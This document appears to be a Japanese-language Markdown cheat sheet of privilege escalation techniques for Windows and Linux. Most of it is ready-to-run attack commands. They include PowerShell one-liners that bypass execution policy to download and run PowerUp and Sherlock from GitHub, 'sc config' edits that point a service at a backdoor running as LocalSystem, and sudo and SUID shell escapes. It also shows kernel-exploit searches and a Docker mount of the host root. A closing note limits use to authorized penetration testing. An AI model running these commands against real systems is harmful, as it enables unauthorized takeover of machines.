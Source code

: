 # Privilege Escalation Techniques

## Windows 権限昇格

### 権限昇格の列挙
```powershell
# PowerUp を使用した脆弱性スキャン
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"

# Sherlock を使用した脆弱性スキャン
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1'); Find-AllVulns"
```

### サービス権限昇格
```powershell
# サービスパス権限の確認
accesschk.exe -uwcqv "Authenticated Users" *

# サービス設定の変更
sc config upnphost binPath= "C:\path\to\backdoor.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost start= auto
```

## Linux 権限昇格

### SUID バイナリの探索
```bash
# SUID ビットが設定されたファイルを検索
find / -perm -u=s -type f 2>/dev/null

# 危険な SUID バイナリの利用例（nano）
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

### Sudo 権限の悪用
```bash
# Sudo 権限の確認
sudo -l

# 一般的な Sudo 権限昇格
sudo find /etc -exec sh -i \;
sudo awk 'BEGIN {system("/bin/sh")}'
sudo vim -c '!sh'
```

### Linux カーネル脆弱性
```bash
# カーネルバージョンの確認
uname -a
cat /proc/version

# 脆弱性の確認
searchsploit linux kernel $(uname -r)
```

### Docker 権限昇格
```bash
# Docker グループメンバーシップの確認
groups

# Docker を使用した権限昇格
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- システムに重大な損害を与える可能性があります
- 実環境での使用は違法となる可能性があります 